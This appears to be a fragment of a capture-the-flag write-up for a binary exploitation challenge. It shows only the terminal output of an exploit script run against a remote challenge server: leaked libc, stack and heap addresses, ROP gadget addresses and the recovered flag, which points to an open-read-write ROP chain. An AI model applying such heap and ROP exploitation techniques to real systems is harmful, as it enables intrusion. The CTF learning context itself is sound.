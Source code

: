 Run script

```
16:08:04 › python exploit.py
[+] Opening connection to 103.145.226.168 on port 30204: Done
[*] '/home/chao/Documents/FastTekno/pwn/lilac/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Libc leak: 0x7f5f64f7abe0
[*] Libc base: 0x7f5f64d8f000
[*] Libc system: 0x7f5f64de4410
[*] Libc __free_hook: 0x7f5f64f7db28
[*] Libc environ: 0x7f5f64f7e2e0
[*] Libc read: 0x7f5f64ea0130
[*] Pop rdi: 0x7f5f64db5b72
[*] Pop rsi: 0x7f5f64db6529
[*] Pop rdx rbx: 0x7f5f64ef1866
[*] Pop rax: 0x7f5f64dd9550
[*] Syscall: 0x7f5f64dda460
[*] Pop rcx: 0x7f5f64e2e822
[*] Libc puts: 0x7f5f64e165a0
[*] Stack leak: 0x7ffff4444cb8
[*] Ret addr: 0x7ffff4444b98
[*] Heap leak: 0x559033ddf990
[*] Flag loc: 0x559033ddfcf0
[*] Switching to interactive mode
Chunk edited
FastTekno{pop_rdi_pop_rsi_pop_rax_syscall_orw}
```
